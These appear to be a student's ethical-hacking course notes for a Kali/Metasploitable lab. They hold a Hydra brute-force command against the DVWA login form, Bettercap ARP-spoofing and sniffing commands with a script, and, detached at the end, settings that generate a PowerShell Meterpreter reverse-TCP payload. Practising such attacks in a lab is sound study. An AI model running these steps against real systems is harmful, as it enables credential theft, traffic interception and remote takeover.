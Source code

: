 ```
┌──(kali㉿kali)-[~]
└─$ hydra <metasploitable ip> http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie:security=low; PHPSESSID=4............."  -L usernames.txt -P passwords.txt
```

### BruteForce with Burpsuite Intruder
- right click on intercepted request/send to intruder/follow steps

# Section 14 : login BruteForce
- section not followed; however you can find this example code provided by the teacher of ZTM udemy classes in python project folder

# Section 15 : Man in the middle
- ARP packet
  - request (ask mac address of X.X.X.X ip)
  - reply (mac for X.X.X.X id ..:..:..:..)
- man-in-the-middle : must answer before routeur or send response to routeur (I am ip X.X.X.X) (-> action arp-spoofing)

## Bettercap arp-spoofing
- run as root
- install
```
┌──(root㉿kali)-[/home/kali]
└─# apt-get install bettercap
┌──(root㉿kali)-[/home/kali]
└─# bettercap
bettercap v2.32.0 (built for linux amd64 with go1.19) [type 'help' for a list of commands]

192.168.1.0/24 > <kali ip>  » [09:19:11] [sys.log] [inf] gateway monitor started ...
192.168.1.0/24 > <kali ip>  » help # list bettercap module
192.168.1.0/24 > <kali ip>  » help <module>
192.168.1.0/24 > <kali ip>  » <module> on # launch module
192.168.1.0/24 > <kali ip>  » help arp.spoof
192.168.1.0/24 > <kali ip>  » set arp.spoof.fullduplex true
192.168.1.0/24 > <kali ip>  » set arp.spoof.targets <metasploitable ip>
192.168.1.0/24 > <kali ip>  » help net.sniff
192.168.1.0/24 > <kali ip>  » set net.sniff.local true
192.168.1.0/24 > <kali ip>  » arp.spoof on

```

- create script sniff.cap :
```
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets <metasploitable ip>
set net.sniff.local true
arp.spoof on
net.sniff on
```


[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate